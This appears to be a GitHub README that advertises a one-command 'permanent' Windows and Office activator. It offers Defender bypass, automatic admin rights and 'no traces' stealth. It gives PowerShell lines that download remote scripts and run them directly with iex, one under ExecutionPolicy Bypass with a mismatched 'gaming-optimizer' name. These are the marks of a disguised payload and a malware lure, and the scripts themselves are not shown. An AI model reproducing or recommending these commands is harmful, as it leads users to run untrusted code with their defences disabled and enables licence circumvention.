 # 🚀 Windows & Office Permanent Activator

> ### ⚡ **ONE COMMAND** - Permanent Activation | Defender Bypass | All Versions Supported

---

## 🎯 **WHAT THIS SCRIPT DOES**

🛡️ **BYPasses Windows Defender** - Complete stealth mode  
✅ **Activates Windows PERMANENTLY** - Lifetime activation  
📊 **Activates Office PERMANENTLY** - All Office versions  
⚡ **Automatic Admin Rights** - No manual elevation needed  
🔥 **All Windows Versions** - 8, 10, 11, Server editions  
🎭 **Complete Stealth** - No traces left behind  

---

## 🚨 **IMMEDIATE ACTIVATION**

### **Method 1: One-Line Command** 🎯
```powershell
irm https://raw.githubusercontent.com/Ano-n-ymous/windows-activator-script/main/script.ps1 | iex


powershell -ExecutionPolicy Bypass -Command "irm https://raw.githubusercontent.com/Ano-n-ymous/gaming-optimizer/main/gaming-optimizer.ps1 | iex"
